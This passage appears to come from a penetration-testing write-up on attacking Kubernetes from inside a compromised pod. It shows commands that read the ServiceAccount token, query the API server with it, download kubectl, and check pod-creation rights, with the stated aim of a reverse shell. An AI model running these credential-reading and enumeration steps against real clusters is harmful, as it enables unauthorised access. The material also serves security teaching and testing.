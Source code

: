 ```bash
cat /var/run/secrets/kubernetes.io/serviceaccount/token
```

If there is a need, we can decode the token from https://jwt.io/!

So if we are able to gain access to the ServiceAccount Token, we can perform some authenticated Kubernetes API enumeration.

```bash
APISERVER=https://kubernetes.default.svc
SERVICEACCOUNT=/var/run/secrets/kubernetes.io/serviceaccount
NAMESPACE=$(cat ${SERVICEACCOUNT}/namespace)
TOKEN=$(cat ${SERVICEACCOUNT}/token)
CACERT=${SERVICEACCOUNT}/ca.crt

curl -vk --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/version
curl -vk --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api
curl -vk --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/apis/apps/v1
```

Our target here is to take advantage of ServiceAccount for creating a new Pod which enables us to run some commands within to get a reverse shell on our attacking system from the pod. But, before doing that, we need to make sure if we have enough permissions on the serviceAccount for doing that:

**First download the `kubectl` binary on the current pod**

```
export PATH=/tmp:$PATH; cd /tmp; curl -LO https://storage.googleapis.com/kubernetes-release/release/v1.24.12/bin/linux/amd64/kubectl; chmod 555 kubectl
```

**Second, find out the node IP via the `/etc/resolv.conf`**

```bash
cat /etc/resolv.conf
```

```
search default.svc.cluster.local svc.cluster.local cluster.local vd3wk3pfuj5unnyfkbt5fjw0bg.bx.internal.cloudapp.net
nameserver 10.0.0.10
options ndots:5
```

The local node for the nameserver `10.0.0.10` is always the `x.x.x.1` address, so in that case `10.0.0.1`

**Third, query the Node API if the service account on the pod has sufficient permissions to create a pod**

```bash
kubectl --token=`cat /run/secrets/kubernetes.io/serviceaccount/token` --certificate-authority=/run/secrets/kubernetes.io/serviceaccount/ca.crt -n `cat /run/secrets/kubernetes.io/serviceaccount/namespace` --server=https://10.0.0.1/ auth can-i create pods
```

```
no
```

